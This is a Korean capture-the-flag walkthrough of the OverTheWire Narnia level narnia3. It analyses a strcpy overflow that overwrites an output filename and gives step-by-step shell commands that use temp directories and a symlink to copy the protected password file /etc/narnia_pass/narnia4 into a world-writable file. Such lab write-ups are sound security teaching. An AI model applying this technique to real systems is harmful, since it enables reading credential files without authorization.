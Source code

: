 ## 1. 문제 확인
- ID : narnia3
- Target : /narnia/narnia3
- Flag : /etc/narnia_pass/narnia4
```
narnia3@gibson:/narnia$ ./narnia3
usage, ./narnia3 file, will send contents of file 2 /dev/null
```

<br/><br/>
## 2. 취약점 분석
### 2.1 Source Code
- 프로그램 실행 인자로 특정 파일을 입력하면 해당 파일을 읽어서 /dev/null 로 복사 후 종료함
![](https://velog.velcdn.com/images/g4nzzi/post/57739ffa-e50e-469e-bc6f-6b64bdbd0679/image.png)
### 2.2 Code 분석
- ifile 사이즈는 32byte이고, strcpy()로 복사할 때 사이즈 제한이 없으므로 실행 인자값을 32byte 이상 입력하면 ofile 값까지 덮어쓸 수 있을 듯 함
![](https://velog.velcdn.com/images/g4nzzi/post/8b7e4b23-81c9-40b7-bbfb-068ffac6caf6/image.png)
- gdb로 메모리 위치를 확인해 보니 정확하게 ifile 32byte 이후 ofile(/dev/null) 이 위치함
```
	(gdb) r NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
	Starting program: /narnia/narnia3 NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
	...
        (gdb) x/100s $ebp-0x38
	0xffffd350:     'N' <repeats 32 times>
	0xffffd371:     "dev/null"
	0xffffd37a:     ""
	...
```

<br/><br/>
## 3. Exploit
- ofile 값으로 덮어쓸 임시파일을 생성
```
	narnia3@gibson:/narnia$ touch /tmp/g4nzzi
	narnia3@gibson:/narnia$ chmod 777 /tmp/g4nzzi
```
- ifile 값을 32byte로 채울 임시 경로를 생성
```
	narnia3@gibson:/narnia$ mkdir /tmp/NNNNNNNNNNNNNNNNNNNNNNNNNNN
	narnia3@gibson:/narnia$ mkdir /tmp/NNNNNNNNNNNNNNNNNNNNNNNNNNN/tmp
```
- flag(/etc/narnia_pass/narnia4)를 읽기내기 위해 심볼릭 링크로 임시파일에 연결
```
	narnia3@gibson:/narnia$ ln -s /etc/narnia_pass/narnia4 /tmp/NNNNNNNNNNNNNNNNNNNNNNNNNNN/tmp/g4nzzi
```
- 프로그램 실행 시 심볼릭 링크를 실행 인자[32byte + 임시파일]로 입력하면 /dev/null 대신 임시파일에 flag값이 복사됨
```
    narnia3@gibson:/narnia$ ./narnia3 /tmp/NNNNNNNNNNNNNNNNNNNNNNNNNNN/tmp/g4nzzi
    copied contents of /tmp/NNNNNNNNNNNNNNNNNNNNNNNNNNN/tmp/g4nzzi to a safer place... (/tmp/g4nzzi)
    narnia3@gibson:/narnia$ cat /tmp/g4nzzi
```
